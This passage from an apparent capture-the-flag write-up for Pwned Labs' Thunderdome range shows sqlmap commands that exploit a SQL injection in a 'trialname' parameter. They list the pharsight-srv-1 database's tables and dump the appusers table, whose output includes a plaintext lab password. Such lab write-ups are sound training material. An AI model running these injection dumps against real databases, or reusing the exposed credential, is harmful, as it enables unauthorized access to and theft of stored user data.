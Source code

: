 Let's focus on the non standard DB `pharsight-srv-1` and list the tables in this DB.

```console
sqlmap -r pharsightsqli.req -p “trialname” —skip-urlencode -D pharsight-srv-1 —tables
```

- `-D` to select the DB
- `--tables` to dump the tables

![Table](/assets/img/pharsighttable.png)

Here we see 3 tables:

- `Participants`
- `appusers`
- `sys.database_firewall_rules`

Looking into the tables, `appusers` stands out as `Participants` we can already get from the Functions App itself. 

Let's dump the `appusers` table. 

```console
sqlmap -r pharsightsqli.req -p “trialname” —skip-urlencode -D pharsight-srv-1 -T appusers —dump
```
- `-T` to select the table
- `--dump` to dump the selected table from the DB

And we have Flag 3!! We also have a password for `Nina@massive-pharma.com` which we can note for our future flags. 

```console
Database: pharsight-srv-1
Table: appusers
[2 entries]
+---------+----------------------------------+----------+
| id      | password                         | username |
+---------+----------------------------------+----------+
| <blank> | wcy4^UV%#^hv35C@^!               | nina     |
| <blank> | 4759ada207c520c956abfbfc530c**** | flag     |
+---------+----------------------------------+----------+
```

And that concludes the "An Absent Defense" flag from the Thunderdome Cyber Range hosted by the great people at [Pwned Labs](https://pwnedlabs.io/).